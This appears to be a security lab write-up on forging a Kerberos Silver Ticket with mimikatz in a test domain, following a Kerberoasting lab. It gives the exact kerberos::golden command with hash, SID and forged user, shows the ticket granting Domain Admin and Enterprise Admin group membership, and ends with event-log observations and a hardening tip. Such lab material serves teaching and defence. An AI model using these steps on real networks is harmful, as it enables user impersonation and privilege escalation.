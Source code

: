 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID - fun |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

Getting our user's SID as explained in the first step in the above table:

![Getting a user&apos;s SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged \(silver\) ticket:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](../../.gitbook/assets/silver-tickets-4624%20%281%29.png)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782%28v=ws.11%29) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}

